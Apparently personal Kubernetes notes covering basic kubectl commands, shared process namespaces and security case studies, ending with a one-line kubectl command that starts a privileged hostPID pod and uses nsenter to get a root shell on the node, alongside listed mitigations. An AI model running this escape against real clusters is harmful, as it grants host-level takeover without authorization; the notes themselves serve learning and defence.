 # +

- On OOMKilled check dmesg on container host
- https://github.com/kubeshark/kubeshark

# lifecycle

```bash
kubectl apply -f foo.yaml

kubectl get services
kubectl get pods --all-namespaces

kubectl delete pod 'foo' --grace-period=0

kubectl run -i --tty --image busybox foo --restart=Never --rm
```

# containers with same pid namespace

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: shared
spec:
  shareProcessNamespace: true
  containers:
  - name: 1
    image: busybox
    command: ["sh"]
    args: ["-c", "foo"]
    env:
    - name: CONTAINER_NAME
      value: 1
  - name: 2
    image: busybox
    env:
    - name: CONTAINER_NAME
      value: 2
```

```bash
# On container 1
ps
# USER		PID		COMMAND
# root		  6		sh -c -- foo

# List container 2 root directory
ls /proc/6/root
```

# case studies

### kube-env leaked via ssrf

- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Shopify’s $25k Bug Report, and the Cluster Takeover That Didn’t\.\.\. \- Greg Castle &amp; Shane Lawrence \- YouTube](https://www.youtube.com/watch?v=2XCm7vveU5A)
- [GitHub \- bgeesaman/kube\-env\-stealer: Automated GKE Kubelet Impersonation and Cluster Secret Stealer via kube\-env](https://github.com/bgeesaman/kube-env-stealer)

### root pid ns

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

- Mitigations:
    - `PodSecurityPolicies`
    - `--allow-privileged=False` on kubelet
